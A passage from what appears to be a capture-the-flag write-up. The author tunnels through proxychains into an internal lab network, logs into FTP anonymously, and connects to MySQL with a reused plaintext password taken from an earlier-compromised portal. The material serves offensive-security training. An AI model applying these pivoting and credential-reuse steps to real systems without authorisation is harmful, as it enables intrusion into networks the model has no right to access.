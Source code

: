 

    oxdf@hacky$ proxychains ftp 172.17.0.2
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:21  ...  OK
    Connected to 172.17.0.2.
    220 (vsFTPd 3.0.3)
    Name (172.17.0.2:oxdf): anonymous
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp>



By default, FTP will try to open another connection back to my host, but
this won't work over the tunnel. I'll set the connection to passive mode
to avoid this:



    ftp> passive
    Passive mode on.



Even still, trying to get a directory listing just hangs:



    ftp> dir
    227 Entering Passive Mode (172,17,0,2,130,94).
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:33374  ...  OK
    150 Here comes the directory listing.



It's not clear what's going on, but I'll come back to it if I'm stuck.

#### 172.17.0.3 - mysql

This host was open on 3306 and 33060. These are likely both MySQL
instances.

I'll connect to the first using the creds from portal:



    oxdf@hacky$ proxychains mysql -h 172.17.0.3 -u portaldb -pJ5tnqsXpyzkK4XNt 
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    mysql: [Warning] Using a password on the command line interface can be insecure.
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.3:3306  ...  OK
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 752
    Server version: 8.0.27 MySQL Community Server - GPL

